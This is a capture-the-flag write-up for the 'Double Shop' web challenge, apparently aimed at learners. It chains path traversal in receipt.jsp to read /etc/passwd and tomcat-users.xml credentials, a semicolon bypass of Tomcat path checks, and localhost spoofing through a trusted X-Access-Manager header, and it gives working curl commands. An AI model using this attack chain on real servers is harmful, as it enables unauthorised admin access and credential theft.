







## Challenge Overview

- **Challenge Name:** Double Shop
- **Category:** Web
- **Difficulty:** medium
- **Description:**
  
Welcome to the Double Shop!

Kety & Tom have finally launched their new vending system, but the selection is... underwhelming. With only a few snacks and drinks available, the shelves feel empty.

If you want to suggest new products or expand the inventory, you’ll need to speak directly with the Manager. However, he is a peculiar character and notoriously hard to reach. He is known for playing double games and hiding behind a system that isn't always what it seems. Many have tried to knock on his door, only to be turned away without explanation. He enjoys the ambiguity of his own rules.

The question is... can you reach him?
- **Provided URL:** `http://doubleshop.challs.srdnlen.it`
- **Flag format:** `srdnlen{...}`

## Goal
The goal was to identify and reach the hidden "Manager" endpoint and retrieve the flag.

## Initial Analysis
### What I examined first

From the description, the words double and manager sprang out to me but I didn't know what to make of them yet. So initially I simply tried out the various options in the webshop. 

- See if I can do something with the search feature
- Purchasing items, refunding, refelling and so on, trying them also in different orders
- Trying out ways to "break" the shop logic by using negative values, non-numbers, extremely high numbers etc.  

But none of those proved to be fruitful in any way. So after a lot of trial and error with the listed points above, I tried decided that the solution lies probably elsewhere.

When clicking on the **Download Receipt** button, I got to a different page and it seemed to be the only proper way to go on from:
- `http://doubleshop.challs.srdnlen.it/api/receipt.jsp?id=sample.txt` (when nothing was bought)
- `http://doubleshop.challs.srdnlen.it/api/receipt.jsp?id=<session>.log` (after purchases)


This showed that the backend uses `JSP` and there was a session `id`. I first tried playing around with the session id but couldn't really do much. So I went back to the description and tried to figure out what it could hint at.


### Tools used for reconnaissance
- Browser DevTools (view-source, console, network)
- `curl`

## Solution Path
### Step 1 - Inspect the client-side JavaScript
When checking the page source, I saw that client-side it uses a script called `vendor.js` in a directory called `assets`:

`http://doubleshop.challs.srdnlen.it/assets/vendor.js`

What I found in `vendor.js`:

- The frontend posts purchases to `POST /api/checkout.jsp`
- It then opens `GET /api/receipt.jsp?id=<sid>.log`
- The session identifier (`sid`) is stored in `localStorage` (`v_sid`)
- There was an API path pattern (`/api/...`) so more endpoints were likely

This more or less confirmed to me that the solution has something to do with the backend rather than the frontend logic.


---

### Step 2 - Find the Manager endpoint
So the first thing I tried then was a request to `/api/manager` which returns **403 Forbidden**:

```
HTTP/1.1 403 Forbidden
Server: Apache/2.4.58 (Unix)
```

Apache is explicitly blocking access to this path, which fits the description since it does say the manager is *"hard to reach"*, so I tried to find a workaround.

---

### Step 3 - Finding the vulnerability

Due to the word *"double"* in the description, I also thought there might be some encoding issues. So I tested different possible paths using `curl` to speed things up. After a lot of trial and error, I found on the internet while searching for path traversal vulnerabilities for Tomcat: **CVE-2025-24813**.  
This says:
*"CVE-2025-24813 is a critical path equivalence vulnerability in Apache Tomcat. It originates from an inconsistent parsing of URLs that contain special characters, specifically the semicolon `(;)`. This inconsistency allows an attacker to craft a malicious URL that is interpreted differently by the security-checking component and the file-serving component"*.

Command set used:

```bash
BASE='http://doubleshop.challs.srdnlen.it'

for p in \
'/api/manager' \
'/api/manager/' \
'/api/manager/.' \
'/api/manager..;/' \
'/api/manager;/' \
'/api/manager;' \
'/api/manager%2f' \
'/api/manager%2e' \
'/api/%2e/manager' \
'/api/./manager' \
'/api//manager' \
'/api/manager%20' \
'/api/manager?.' \
'/api/manager%3b' \
'/api/manager%3b/' \
'/api/%6danager'
do
  echo "===== $p ====="
  curl --path-as-is -i -s "$BASE$p"
  echo
 done
```

What I found:

- `/api/manager` -> `403 Forbidden`
- `/api/manager;` -> `404 Not Found`
- `/api/manager;/` -> **403 Access Denied** 

This felt like a good first step.


The important part ended up being "*By default the Manager is only accessible from a browser running on the same machine as Tomcat.*" 

---

### Step 4 - Probe `receipt.jsp` for path traversal and LFI
The receipt endpoint looked like a file reader:

- `GET /api/receipt.jsp?id=<filename>`

So once again, I tested various ways to perform a path like:

`api/receipt.jsp?id=../../../../etc/passwd`  
`/api/receipt.jsp?id=../WEB-INF/web.xml`


At first, many attempts returned *"Receipt not found or expired (TTL 60s)*"

After trying different traversal depth, I managed to read `/etc/passwd`:  
`/api/receipt.jsp?id=../../../../../etc/passwd`:



I then tried again with trial and error to find various files. Later I looked up online what typical Tomcat config files there are and tried accessing them such as:

- `/api/receipt.jsp?id=../../../../conf/server.xml`  
- `/api/receipt.jsp?id=../../../../conf/tomcat-users.xml`
- `/api/receipt.jsp?id=../../../../conf/web.xml`

**tomcat-users.xml** and **server.xml** were the most important files in the challenge.

---

### Step 5 - Read `tomcat-users.xml` and `server.xml`
Reading `tomcat-users.xml` returned credentials:

- Username: `adm1n`
- Password: `317014774e3e85626bd2fa9c5046142c`


Reading `server.xml`:
```xml
<Valve className="org.apache.catalina.valves.RemoteIpValve"
       internalProxies=".*"
       remoteIpHeader="X-Access-Manager"
       proxiesHeader="X-Forwarded-By"
       protocolHeader="X-Forwarded-Proto" />
```

I looked this up online and it says:
- *"this valve replaces the apparent client remote IP address and hostname for the request with the IP address list presented by a proxy or a load balancer via a request headers (e.g. "X-Forwarded-For")."*
- *"internalProxies: Regular expression that matches the IP addresses of internal proxies. If they appear in the remoteIpHeader value, they will be trusted and will not appear in the proxiesHeader value"*

Because the regex for the interalProxies was simply ".\*", it trusts *any* proxy IP since it just matches everything. It also says the *"remoteIpHeader"* is **X-Access-Manager** instead of the standard *"X-Forwarded-For"*. So as I understood it, it's a custom header and Tomcat was configured to trust that header. Additionally, the earlier mentioned "403 page" said something about using a browser that runs on the same machine as Tomcat, i.e. **localhost**. So sending the localhost IP with that trusted header, should allow us to bypass the restriction.

---

### Step 6 - Access Tomcat Manager and finding the flag
I combined everything into a single request:

- `/api/manager;/html` Semicolon trick
- `X-Access-Manager: 127.0.0.1` fooling it into thinking it's a trusted internal IP
- Credentials from `tomcat-users.xml`

Command:

```bash
curl -s -H "X-Access-Manager: 127.0.0.1" -u "adm1n:317014774e3e85626bd2fa9c5046142c" "http://doubleshop.challs.srdnlen.it/api/manager;/html"
```

This successfully returned the **Tomcat Web Application Manager** page.

In the application list, I found the (encoded) flag:  


## Conclusion
This challenge need the chaining of **three distinct vulnerabilities**:
- **Local File Inclusion** in `receipt.jsp?id=`
- **Apache/Tomcat path parsing vulnerability** (semicolon bypass)
- **Misconfigured `RemoteIpValve` and custom `remoteIpHeader`** (trusts any IP with the custom header)

### What I learned
1. CTF description contain some good hints.
2. Watch out for possible LFI and path traversal vulnerabilities.
3. *"Never"* just trust all IPs.


### Tips for others attempting similar challenges
- Use `curl` (or some other for of script) when testing path traversal, looking for endpoints etc. which safes a lot of time.
- Test for **different interpretations** of basically the *same* path.
- When a file-reading endpoint exists, check first configuration files (`server.xml`, `tomcat-users.xml`, web server configs).